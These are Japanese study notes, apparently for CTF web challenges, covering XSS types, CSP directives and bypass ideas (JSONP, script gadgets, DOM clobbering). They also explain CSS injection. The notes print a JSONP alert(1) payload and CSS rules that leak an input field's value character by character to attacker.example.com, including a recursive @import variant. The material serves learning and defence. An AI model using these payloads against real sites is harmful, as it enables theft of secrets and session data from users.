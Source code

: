 # xss

## 概要

- JS コードへのユーザー入力の埋め込みにより発生する
- すでに JS に埋め込まれているため SOP は適用されない
- XSS を活用した攻撃手法
  - セッションハイジャック -> document.cookie を活用
  - Web ページ内の機密情報 -> document.getElementById('secret')とか
- 異なる web サイトへの誘導
  - location.href を書き換えれば OK

## 種類

- 反射型
- 格納型
- DOM-Based
  - 現在の URL のクエリ文字列(location.search)やフラグメント(location.hash)を用いて DOM を操作する場合
  - e.g. URL のクエリパラメータ(name)に応じて表示される名前 UI が変わる

## 問題形式

- ユーザーの入力値が何らかの形式でエコーバックされる機能
- サイト管理者を模したクローラを、出題対象となる WebApp 内のページに誘導する機能
- サイト管理者をもしたクローラの User-Agent や Cookie、サイト管理者しかアクセスできないページに FLAG がある

## 攻撃手法

- ケース 1: 単純なエコーバック
- ケース 2: 入力値が HTML 要素の props として出力される場合
- ケース 3: 入力値が DOM 操作に利用される場合
  - innerHTML による要素の script 更新は規制されている

## CSP

- 怪しそうなスクリプトを判断する
  - ホスト名: スクリプト配信元のホスト名を指定できる
  - ハッシュ値: 実行可能なスクリプトのハッシュ
  - nonce: HTML 生成時に script タグに nonce を入れておく
- 実際のディレクティブ
  - script-src
    - none: 禁止
    - self: same origin
    - host-source: ホスト名や IP アドレス、URL で指定されたサーバから配信されるスクリプトの実行を許可
    - nonce-<base64-value>
    - <hash-algorithm>-<base64-value>
    - strict-dynamic
      - 親の script タグが nonce によって信頼されている場合、その親が動的に生成した子の script タグを信頼する
      - nonce の管理が問題なければ強力
  - connect-src
    - フロントエンドからの API 通信先を制限
  - default-src
    - ディレクティブで許可しない場合のデフォルト値
  - base-url
    - 第三者が不正に<base>タグを挿入して相対リンクを外部サイトに誘導することを防ぐ
- 近年は CSP をバイパスさせて XSS を発生させるような問題がある
  - JSONP エンドポイント
    - jsonp
      - 外部ファイルの参照を行う script 要素が SOP による制約を受けないことを利用した CrossOrigin リクエストの仕組み
    - <script> src="cdn.example.com/jsonp?callback=alert(1)//"</script>
      - この script 要素によって実行されるコードは cdn.example.com から配信されていることになる
  - Script Gadget
    - テンプレートエンジンやフレームワークなどの動的レンダリング機能を用いる
    - ユーザーが入力した文字列をそのまま実行するガジェットが潜んでいる場合がある
  - base-uri 未設定による相対パス攻撃
  - DOM Clobbering
    - strict-dynamic が設定されている場合に使用
    - <script>要素の挿入はnonceで、<p>タグなどによるスクリプトの挿入はstrict-dynamicでガードされている
- ホストベースの CSP が設定されている場合は上記のような手法を検討する
  - ホストベースではない strict-dynamic/nonce/hash を使おう!
  - csv-evaluator を使おう！

## CSS インジェクション

CSS の前方一致セレクタおよび url 関数を利用する

```css
href[a^='https://']
{
  /* a属性がhttps://から始まるhref要素に適用される */
  color: red;
}

body {
  background: url(https://example.com/background.jpg);
}
```

以下の CSS を注入し input 属性の value の一文字目を当てる（同様に 2 文字目以降も当てる）

```css
input[value^='a'] {
  background: url(https://attacker.example.com?value=a);
}
input[value^='b'] {
  background: url(https://attacker.example.com?value=b);
}
/* ... */
```

ただし以下のデメリットがある

- 一度に全て取得しようとすると value が英語 3 文字だったとしても 26^3=17576 通りのルールが必要(CSS ファイルの上限に引っかかる)
- 故に、value が長ければ長いほど複数回に分ける必要あり
  - 訪問のたびにランダム化される要素の場合は無理

対策として@import 文を使用して 1 回の訪問で再帰的に文字列を取得する方法がある

まずは 1.css を読み込みつつ、1 文字目を特定する。サーバ側では 1.css のリクエストを保留し、特定された 1 文字目に応じて動的に css を生成してレスポンスする

```css
@import url(https://attacker.example.com/1.css);

input[value^='a'] {
  background: url(https://attacker.example.com/leak/a);
}
input[value^='b'] {
  background: url(https://attacker.example.com/leak/b);
}
/* ... */
```

これを繰り返すことで再帰的に value を取得する
